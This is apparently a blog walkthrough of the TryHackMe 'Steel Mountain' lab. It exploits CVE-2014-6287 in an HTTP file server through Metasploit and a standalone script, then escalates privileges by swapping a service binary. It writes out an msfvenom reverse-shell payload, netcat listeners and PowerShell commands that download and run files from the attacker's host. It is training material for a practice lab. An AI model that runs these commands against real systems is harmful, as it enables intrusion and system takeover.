


*2021-08-28*

*kimm3*

# Walkthrough: Steel Mountain
Platform: TryHackMe

Difficulty: Easy

- [Link](https://tryhackme.com/room/blue)

As this is a room on TryHackMe I don't explore every single possibility, I awnser the questions and move on. I won't post any awnsers to questions here, or even refer to them - just showing how to hack the box, as intended.
## Setup


```
script history/enum1
export IP=10.10.209.30
```
## Scans and enumeration
`sudo nmap $IP -p- -Pn -A -oA scans/nmap-init`


- Two http servers(80 and 8080)
- Two http APIs
- SMB enabled
- Some kind of terminal or remote desktop server.


Index of port 80.


Interesting.

There's a pretty [serious vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2014-6287) for this http file server.
## Foothold
```
script history/target1
msfconsole
search CVE-2014-6287
use 0
info
set LHOST 10.8.210.115
set RHOSTS 10.10.209.30
set RPORT 8080
run
```


## Privilege Escalation
```
upload tools/PowerUp.ps1
load powershell
powershell_shell
. .\PowerUp.ps1
Invoke-AllChecks
```


The 'AdvancedSystemCareService9' is restartable and we have read/write permissions. This means that we can replace the binary with our own malicious .exe-file and restart the service to run a reverse shell.

```
# LOCAL
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=4321 -e x86/shikata_ga_nai -f exe -o upload/Advanced.exe

# REMOTE
## Meterpreter
upload upload/Advanced.exe

## Shell
sc stop AdvancedSystemCareService9
copy Advanced.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"

# LOCAL
nc -lvnp 4321

# REMOTE
sc start AdvancedSystemCareService9
```


## The no-metasploit way
### Foothold
Using [this](https://www.exploit-db.com/exploits/39161) script.

Prep:
- Edit the script with your local ip and port.
- Host a 'nc.exe' binary on port 80.
- Setup a listener to correct port.

```
python 2014-6287.py 10.10.58.54 8080
python 2014-6287.py 10.10.58.54 8080
```

It retrieved 'nc.exe' the first run, executed it the second.


### Alternative vulnscan
Using winPEAS instead of PowerUp.

Getting winPEAS with powershell(hosting it on the same http server):

```
powershell -c "(new-object system.net.webclient).downloadfile(\"http://10.8.210.115/PEASS-ng/winPEAS/winPEASbat/winPEAS.bat\",\"checkme.bat\")"`

.\checkme.bat > output

type output
```


winPEAS also notices the unqouted paths and r/w permissions. This time we can use the unqouted way of doing things, instead of replacing the original file.
### Privescing is the same
```
powershell -c "(new-object system.net.webclient).downloadfile(\"http://10.8.210.115/Advanced.exe\",\"Advanced.exe\")"

copy Advanced.exe "C:\Program Files (x86)\IObit\"

powershell -c "restart-service AdvancedSystemCareService9"
```


